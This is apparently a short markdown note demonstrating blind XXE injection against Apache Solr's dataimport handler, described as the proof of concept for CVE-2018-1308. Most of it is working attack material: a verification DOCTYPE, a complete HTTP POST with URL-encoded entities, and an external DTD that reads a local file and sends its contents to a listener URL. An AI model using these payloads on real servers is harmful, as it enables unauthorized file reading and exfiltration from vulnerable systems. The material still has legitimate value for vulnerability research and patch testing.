



### XXE injection

#### Blind XXE injection
1. just for verifying XXE.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;]>
<root/>
```

2. extract file content from target system
```http
POST /solr/new_core/dataimport HTTP/1.1
Host: cqq.com:8983
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

command=full-import&dataConfig=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY %25 file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY %25 remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%25remote%3b
%25all%3b
]>
<root>%26send%3b</root>
```
The original xml content is as follows:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY % file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;
%all;
]>
<root>&send;</root>
```
but if we use this content directly, we will end up with a expection liks this:

if we urlencode `%`, `;` and `&`, we will successfully read the content of the target file.

while the content of `/Users/Shared/cccc` is: `shadowsock5`.
while the content of `http://127.0.0.1:8000/xxe.dtd` is:
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8888/?content=%file;'>">
```
Demo:


####
This is also the PoC of [CVE-2018-1308](https://mail-archives.apache.org/mod_mbox/www-announce/201804.mbox/%3C000001d3cf68%245ac69af0%241053d0d0%24%40apache.org%3E)

#### Ref
- http://ceye.io/payloads
- https://blog.csdn.net/u011721501/article/details/43775691
